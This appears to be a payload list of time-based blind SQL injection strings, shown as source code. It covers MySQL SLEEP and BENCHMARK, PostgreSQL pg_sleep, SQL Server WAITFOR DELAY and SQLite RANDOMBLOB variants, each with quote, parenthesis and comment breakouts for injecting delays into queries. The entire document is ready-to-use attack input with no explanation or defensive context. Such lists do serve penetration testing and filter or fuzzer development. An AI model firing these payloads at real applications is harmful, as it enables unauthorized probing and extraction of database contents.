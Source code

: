 ```
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
```